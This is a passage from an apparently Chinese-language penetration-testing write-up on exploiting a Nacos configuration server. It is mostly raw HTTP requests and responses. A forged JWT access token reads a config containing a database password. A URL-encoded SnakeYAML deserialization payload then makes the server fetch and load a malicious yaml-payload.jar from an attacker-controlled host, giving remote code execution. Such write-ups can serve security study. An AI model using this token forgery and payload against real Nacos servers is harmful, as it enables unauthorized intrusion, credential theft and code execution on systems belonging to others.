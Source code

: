 在点击“发布”后，攻击者服务器上会收到访问恶意 yaml-payload.jar 的请求：

![alt text](https://raw.githubusercontent.com/h0ny/repo/main/images/551b0e1ae8a9ea46.png)

由于需要修改现有配置，所以应该要先获取到该配置文件现有的内容，以便后续还原：

```http
GET /nacos/v1/cs/configs?show=all&dataId=db-config&group=DEFAULT_GROUP&accessToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6OTk5OTk5OTk5OX0.00LxfkpzYpdVeojTfqMhtpPvNidpNcDoLU90MnHzA8Q HTTP/1.1
Host: 172.30.12.6:8848
Accept: application/json
Content-Type: application/x-www-form-urlencoded

HTTP/1.1 200
Content-Type: application/json;charset=UTF-8
Date: Tue, 20 Feb 2024 07:00:59 GMT
Content-Length: 1088

{"id":"709688883859709952","dataId":"db-config","group":"DEFAULT_GROUP","content":"server:\n  port: 8080\n  servlet:\n    context-path: /hello\n\nspring:\n  application:\n    name: db-config\n  cloud:\n    nacos:\n      discovery:\n        server-addr: 127.0.0.1:8848\n      config:\n        server-addr: 127.0.0.1:8848\n        file-extension: yaml\n        namespace: dev\n        group: DEFAULT_GROUP\n        data-id: db-config.yaml\n  datasource:\n    mysql:\n      url: jdbc:mysql://localhost:3306/test?useSSL=false&serverTimezone=UTC&allowPublicKeyRetrieval=true\n      username: root\n      password: P@ssWord!!!\n  redis:\n    host: localhost\n    port: 6379\n\nmanagement:\n  endpoints:\n    web:\n      exposure:\n        include: '*'\n","md5":"89c1f73940ae28b17ba0d66202a9fde9","tenant":"","appName":"","type":"yaml","createTime":1708412422025,"modifyTime":1708412422025,"createUser":null,"createIp":"172.30.12.5","desc":"Changing the password will cause the client connection to fail. Therefore, do not change the password","use":"","effect":"","schema":"","configTags":null}
```

创建一个 Yaml 格式的配置，加载远程主机上的恶意 yaml-payload.jar 包：

```http
POST /nacos/v1/cs/configs?accessToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6OTk5OTk5OTk5OX0.00LxfkpzYpdVeojTfqMhtpPvNidpNcDoLU90MnHzA8Q HTTP/1.1
Host: 172.30.12.6:8848
Accept: application/json
Content-Type: application/x-www-form-urlencoded
Content-Length: 358

dataId=db-config&group=DEFAULT_GROUP&type=yaml&content=%21%21javax.script.ScriptEngineManager+%5B%0A++%21%21java.net.URLClassLoader+%5B%5B%0A++++%21%21java.net.URL+%5B%22http%3A%2F%2F172.30.12.5%3A8000%2Fyaml-payload.jar%22%5D%0A++%5D%5D%0A%5D

HTTP/1.1 200
Content-Type: application/json;charset=UTF-8
Content-Length: 4

true
```

此时，攻击者服务器上收到访问恶意 yaml-payload.jar 的请求，漏洞利用完成。
